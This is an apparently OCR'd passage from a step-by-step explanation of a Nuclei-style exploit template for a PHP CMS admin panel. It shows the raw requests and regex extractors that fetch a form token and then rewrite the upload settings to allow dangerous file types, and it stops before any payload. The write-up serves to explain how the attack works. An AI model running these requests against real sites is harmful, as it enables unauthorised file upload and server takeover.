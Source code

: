 - Attempts authentication with valid credentials.
    

####  Third Request: Access Settings Page for Tokens

```yaml
- raw:
    - |
      GET /admin/settings/index.php?advanced=yes HTTP/1.1
      Host: {{Hostname}}
```

**Purpose:**

- Accesses the settings page with `advanced=yes` parameter.
    
- The response contains additional tokens required for subsequent requests.
    



####  Extract `formtoken` and `app_name`

```yaml
extractors:
  - type: regex
    name: formtoken
    group: 1
    regex:
      - name="formtoken" value="(.*)"
    internal: true
    part: body

  - type: regex
    name: app_name
    group: 1
    regex:
      - name="app_name" value="(.*)"
    internal: true
    part: body
```

**Explanation:**

- Extracts:
    
    - `formtoken`: A CSRF-like token required for saving settings.
        
    - `app_name`: Application name parameter used in the next request.
        
- Stored as internal variables for reuse.
    



####  Fourth Request: Modify Upload Settings to Allow Dangerous File Types

```yaml
- raw:
    - |
      POST /admin/settings/save.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded

      advanced=yes&formtoken={{formtoken}}&...&app_name={{app_name}}&pages_directory=%2Fpages&media_directory=%2Fmedia&page_extension=.php&rename_files_on_upload=
```
